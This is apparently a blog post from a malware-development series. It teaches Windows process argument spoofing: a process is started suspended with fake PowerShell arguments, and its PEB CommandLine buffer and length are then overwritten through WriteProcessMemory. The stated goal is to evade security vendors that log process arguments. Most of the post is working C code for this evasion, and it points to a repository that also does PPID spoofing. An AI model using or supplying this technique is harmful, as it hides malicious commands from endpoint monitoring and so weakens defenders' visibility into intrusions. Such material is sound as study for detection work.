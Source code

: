 ```yaml
---
description: powershell.exe -c echo "I am safe :)"
---
```


# Process Argument Spoofing

## Theory

First we create a process in suspended state with fake arguments (this should be at least as long as the actual argument we want to run), then we get its PEB and update the `ProcessParamters` structure in it, specifically the `CommandLine.Buffer` & `CommandLine.Length`, after which we will resume the process, and it will execute our actual argument. This helps us bypass vendors that log what the arguments are given to the process as we update the argument after it has been created.

## Argument Spoofing

First we will create a process in suspended state. Note that we would have to give the fake arguments to this suspended process. We can give the arguments through the `CreateProcess` api.

{% code fullWidth="false" %}
```c
LPSTR fakeArgs = "powershell.exe -c Write-Host 'Args faked ?'"; 
CreateProcessA(NULL, fakeArgs, NULL, NULL, FALSE, (CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT), NULL, "C:\\Windows\\System32", &si_ex.StartupInfo, &pi)) 
```
{% endcode %}

> <mark style="color:orange;">An</mark> <mark style="color:orange;"></mark><mark style="color:orange;">**Importante**</mark> <mark style="color:orange;"></mark><mark style="color:orange;">thing to note here is that the fake arguments should almost always be ≥ the real arguments. This is because whenever a process is created, there is limited memory allocated to the</mark> `CommandLine.Buffer`<mark style="color:orange;">. If the Actual args are greater than the fake ones, you might</mark> <mark style="color:orange;"></mark><mark style="color:orange;">**overwrite the buffer**</mark> <mark style="color:orange;"></mark><mark style="color:orange;">and crash the process.</mark>

Then we just need to get to the PEB of that process, and from there we will get to the `ProcessParameters` structure and eventually the `CommandLine.Buffer` & `CommandLine.Length`.

{% code overflow="wrap" %}
```c
STATUS = NtQueryInformationProcess(pi.hProcess, ProcessBasicInformation, &pbi, sizeof(PROCESS_BASIC_INFORMATION), &dwRet)

pPEB = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sizeof(PEB));
ReadProcessMemory(pi.hProcess, pbi.PebBaseAddress, (PVOID*)pPEB, sizeof(PEB), &szBytes)

pParams = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sizeof(RTL_USER_PROCESS_PARAMETERS));
ReadProcessMemory(pi.hProcess, pPEB->ProcessParameters, pParams, sizeof(RTL_USER_PROCESS_PARAMETERS), &szBytes)
```
{% endcode %}

Now we have read the `ProcessParameters` structure, we just need to get the `CommandLine.Buffer`. This is at the offset of `0x70` from it.

<pre class="language-c" data-overflow="wrap"><code class="lang-c">// We need to convert it to UNICODE, that's just how Windows work internally
LPSTR faikArgs = "powershell.exe -c Write-Host 'Args faked ?'"; 
LPCWSTR RealArgs = L"powershell.exe -NoExit calc.exe";

WCHAR spoofed[MAX_PATH];
wcscpy_s(spoofed, MAX_PATH, RealArgs);
WriteProcessMemory(pi.hProcess, (PVOID)pParams->CommandLine.Buffer, (PVOID)spoofed, (wcslen(spoofed) + 1) * sizeof(WCHAR), &#x26;szBytes)

//DWORD dwCorrectLength = strlen(faikArgs);
// sizeof(faikArgs) = 8 , idk why it was acting weird when I hardcoded 10, 
// it was showing full length in process hacker
// It's best to use unicode for both fake &#x26; real args
// I'll update on this weird behavior later after more testing &#x26; searching
// This below did only print till "powershell.exe" , since * 2 gives ~ unicode length
DWORD dwCorrectLength = 28;

<strong>LPVOID lpCmdLength = (PBYTE)pPEB->ProcessParameters + offsetof(RTL_USER_PROCESS_PARAMETERS, CommandLine.Length);
</strong>WriteProcessMemory(pi.hProcess, lpCmdLength, &#x26;dwCorrectLength, sizeof(DWORD), &#x26;szBytes)
</code></pre>

And that's it, we have updated the command line with the actual one, and also the length as well. If I know look at it through  process hacker, I see only till the powershell.exe, and it spawns a calc.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption><p>Seeing the fake args, before it has been updated </p></figcaption></figure>



> For some reason, I had troubles with reading the Command Line, if I look at it before my code updates it, it stays the same no matter the length I give in Process Hacker. But doing the same behavior in Process Explorer doesn't lead to similar results, I actually see the updated command line.

I did some debugging and first thought that Process Hacker looks at the Parameters once (when we look at the properties), but it seems that I was wrong (weird because it was working earlier?) but my only guess is that maybe it looks at them once at the time of creation of process, which explains why it just doesn't update. Whereas, Process Explorer may query and get the Process Parameters everytime I look at the properties, which is always the better approach.

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption><p>Process Explorer showing the updated command line</p></figcaption></figure>

The calc.exe dies soon and another calculatorapp process spawns, but if we look at it (calc.exe) quickly, we can see that its PPID is the powershell we created.&#x20;

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Thank you.

I'll update more details later (after some more testing). For now, I have the full code which includes the PPID Spoofing as well, on my [github](https://github.com/ZzN1NJ4/Malware-Development/tree/main/MorphExe) so you can check that out if you want. I'm thinking to write more in Rust so maybe in my next post, I will be using Rust.&#x20;
